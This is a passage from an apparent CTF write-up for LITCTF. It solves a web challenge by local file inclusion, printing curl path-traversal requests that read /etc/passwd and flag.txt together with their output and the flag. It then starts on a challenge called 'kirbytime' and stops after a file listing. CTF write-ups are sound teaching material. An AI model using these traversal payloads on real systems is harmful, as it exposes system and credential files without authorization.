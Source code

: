 </aside>

From this it’s pretty clear that the challenge is LFI [Local File Inclusion]. And finding the `/etc/passwd` took no time, but got struck here for a while.

[File Inclusion/Path traversal | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```bash
└─$ curl "https://litctf.org:31778/?file=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

And after getting too focused on the URL part, I moved out and did a GET request to the `flag.txt` 

and out came the flag.

```bash
└─$ curl -X GET "https://litctf.org:31778/?file=../../../flag.txt"
LITCTF{backtr@ked_230fim0}
```

Flag: `LITCTF{backtr@ked_230fim0}`

### **kirbytime**

Welcome to Kirby's Website.

Author: `Stephanie`

Given: [**kirbytime.zip](https://drive.google.com/uc?export=download&id=186KLr52yoTD1scFyzeZKSMa6cUr9iV6m&name=kirbytime.zip) + Instance**

Unzipping the file, we get the following files.

```bash
login.html  main.py  static
```
